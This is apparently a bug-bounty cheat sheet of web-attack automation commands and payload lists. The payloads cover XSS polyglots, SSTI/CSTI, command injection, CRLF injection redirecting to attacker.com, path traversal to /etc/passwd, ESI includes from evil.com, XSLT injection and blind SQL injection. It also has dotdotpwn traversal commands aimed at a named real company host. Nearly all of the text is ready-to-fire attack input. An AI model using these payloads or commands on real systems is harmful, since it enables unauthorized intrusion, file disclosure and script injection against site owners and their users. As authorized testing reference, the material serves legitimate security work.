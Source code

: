 ```yaml
---
tags:
  - web_hunting
---
```

### Automation

```bash
# Paramspider | gau | kxss
python3 ParamSpider/paramspider.py -d target | kxss 
cat subdomains.txt | gau | grep "?" | kxss

# parameter brute forcing 
Arjun -u host.com -w Wordlists/Param-Miner.txt

# Dalfox tool for scanning
Dalfox url host.com?parameters=xss

# Nuclei to fuzz for vulns
nuclei -l parameters.txt -t nuclei_templates/ -et nuclei_templates/waf -et nuclei_templates/others

# DotDotPwn --> <https://github.com/wireghoul/dotdotpwn>  --> for Directory Traversal automation
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "/???/??ss??" -k "root" -d 20 -b -e "%00.png"
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "etc/passwd" -k "root" -d 20 -b
```

### Manual Testing (Credit: HackTricks)

- **XSS** → [**XSS**](https://www.notion.so/XSS-d134ad33750041348b702bd15264e165?pvs=21) →
    
    ```python
    <img src=x onerror=alert("XSS_By_h0tak88r")> 
    <00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/ 
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ```
    
- **Open Redirect** → **SSRF**
    
    ```python
    www.whitelisted.com
    www.whitelisted.com.evil.com
    <https://google.com>
    //google.com
    javascript:alert(1)
    <https://evil.com>
    <https://hackerone.com/reports/59372> -> Homograph Attack
    ```
    
- **CSTI** → `{{7*7}}[7*7]`→ `{{3*3}}` → `{{constructor.constructor('alert(document.cookie)')()}}`
    
- **SSTI** → `{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\\` → RCE
    
- **Command Injection →**
    
    ```python
    1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
    /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
    ```
    
- **CRLF →**
    
    ```jsx
    %0d%0aLocation:%20http://attacker.com
    
    %3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
    
    %3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
    
    %0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
    ```
    
- **Dangled Markup [ HTML Injection ] →** `<br>lol<b><h1>THIS IS AND INJECTED TITLE </h1>`
    
- **Local File Inclusion →**
    
    ```jsx
    /etc/passwd
    ../../../../../../etc/hosts
    ..\\..\\..\\..\\..\\..\\etc/hosts
    /etc/hostname
    ../../../../../../etc/hosts
    C:/windows/system32/drivers/etc/hosts
    ../../../../../../windows/system32/drivers/etc/hosts
    ..\\..\\..\\..\\..\\..\\windows/system32/drivers/etc/hosts
    <http://asdasdasdasd.burpcollab.com/mal.php>
    \\\\asdasdasdasd.burpcollab.com/mal.php
    ```
    
- **ReDOS →**
    
    ```python
    (\\\\w*)+$
    ([a-zA-Z]+)*$
    ((a+)+)+$
    ```
    
- **Server Side Inclusion/Edge Side Inclusion**
    
    ```python
    <!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://evil.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
    ```
    
- **XSLT Server Side Injection**
    
    ```python
    <xsl:value-of select="system-property('xsl:version')" /><esi:include src="<http://10.10.10.10/data/news.xml>" stylesheet="<http://10.10.10.10//news_template.xsl>"></esi:include>
    ```
    
-  **Request smuggling** -> [ATO via request smuggling](https://gist.github.com/h0tak88r/8e6f8ff1f1ec511c57ff2063595f49fb#file-request-smuggling-to-ato)
- SQL Injection
```python
Bug : Blind SQL Injection Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
```


